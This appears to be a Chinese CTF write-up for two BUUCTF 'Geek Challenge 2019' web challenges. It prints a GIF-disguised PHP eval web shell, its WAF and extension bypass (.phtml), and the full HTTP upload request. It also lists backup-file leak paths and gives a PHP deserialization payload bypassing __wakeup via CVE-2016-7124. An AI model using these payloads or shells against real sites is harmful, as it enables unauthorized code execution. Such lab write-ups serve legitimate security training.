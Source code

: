 # 2021/07/05

## Upload

> 极客大挑战 2019

### 题目

题目是一道上传类型的题目，打开页面就能看到一个上传页面，先随便弄个图片马上去

```php
GIF89a
<?php
	eval($_POST['bme']);
?>
```

直接被拦截，提示我们上传的代码中含有`<?`，看来是有waf的存在，换一种写法

```php
GIF89a
<script language="php">
	eval($_POST['bme']);
</script>
```

但是我们的尾缀名还是`.gif`，要解析还需要`php`格式，所以还要对后缀进行绕过，如`php php3 php4 php5 phtml`，这里采用`phtml`进行绕过，上传好图片马之后，只需要用**蚁剑**去连接就行，路径在`/upload`下

### payload

```http
POST /upload_file.php HTTP/1.1
Host: f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn
Content-Length: 344
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3x6kQ4KShfkzO4oS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

------WebKitFormBoundary3x6kQ4KShfkzO4oS
Content-Disposition: form-data; name="file"; filename="bme.phtml"
Content-Type: image/gif

GIF89a
<script language="php">
	eval($_POST['bme']);
</script>
------WebKitFormBoundary3x6kQ4KShfkzO4oS
Content-Disposition: form-data; name="submit"

鎻愪氦
------WebKitFormBoundary3x6kQ4KShfkzO4oS--
```

## PHP

> 极客大挑战 2019

### 题目

进网站翻源码，发现啥也没用，有一处关键信息**我有一个良好的备份网站的习惯**，说明这是一个**信息泄露**类型的题目，直接工具/手动翻，常见的包括`.php~ .php.bak .swp .swn .swo www.zip .php.old .php.txt`等等，这里找出来是`www.zip`，下载源码翻一下

```php
// index.php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```

```php
// class.php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();     
        }
    }
}
?>
```

```php
// flag.php
<?php
	$flag = 'Syc{dog_dog_dog_dog}';
?>
```

很明显，是一道反序列的化的题目，难点在绕过`__wakeup`，利用`CVE-2016-7124`，属性的个数大于实际个数就能绕过，还有一个问题点，就是反序列化后的字符串，`private`属性是包括不可见字符的，所以在上传的时候，要加上去

### payload

```php
<?php
include class.php;

$name = new Name('admin',100);
echo serialize($name);

?>

// O:4:"Name":3:{s:14:"\0Name\0username";s:5:"admin";s:14:"\0Name\0password";i:100;}
```